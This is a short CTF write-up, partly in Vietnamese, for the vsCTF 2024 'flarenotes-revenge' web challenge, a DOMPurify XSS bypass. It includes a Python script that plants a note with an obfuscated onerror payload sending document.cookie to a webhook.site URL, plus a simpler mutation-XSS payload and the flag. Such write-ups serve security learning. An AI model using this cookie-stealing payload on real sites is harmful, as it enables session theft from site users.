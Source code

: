 # flarenotes-revenge

![image](https://github.com/LDV-SpaceK/vsCTF2024/assets/152776722/119ed912-85c9-449a-be17-9eae8844d38e)


- Recon

 => dạng này là xss DOMPurify 

 


![photo_2024-06-18_06-36-41](https://github.com/j10nelop/m3d1r/assets/152776722/db6cea54-8728-4d48-910e-ebff0f0947a6)


```
import requests as _requests, base64

requests = _requests.Session()
# poison self
req = requests.get("https://flarenotes.vsc.tf/
")
user_id = req.content.split(b"?user=")[1].split(b"\"")[0].decode()
print("user_id", user_id)

req = requests.get("https://flarenotes.vsc.tf/
")
user_id = req.content.split(b"?user=")[1].split(b"\"")[0].decode()
print("user_id", user_id)

second_stage = """var i=new Image(); i.src="https://webhook.site/6268ac05-3100-47b9-bcb7-f29338474397/?cookie="+btoa(document.cookie)
;
"""

payload = f"""<img class="asdf
<img src onerror=eval(atob('{base64.b64encode(second_stage.encode()).decode()}'))>"/>"""
print("payload:", payload)
req = requests.post("https://flarenotes.vsc.tf/add_note
", data={"note": payload})

print(f"https://flarenotes.vsc.tf/view/?user={user_id}", req.content)
```

=> payload xss khi ta cắt thẻ <a herf="abc"<img src = x onerror = alert(document.domain)>"></a>

![image](https://github.com/LDV-SpaceK/vsCTF2024/assets/152776722/307d5050-090f-469e-a267-ebebccc84701)



=> flag: vsctf(shouldnt_h4v3_us3d_cr1mefi4r3}
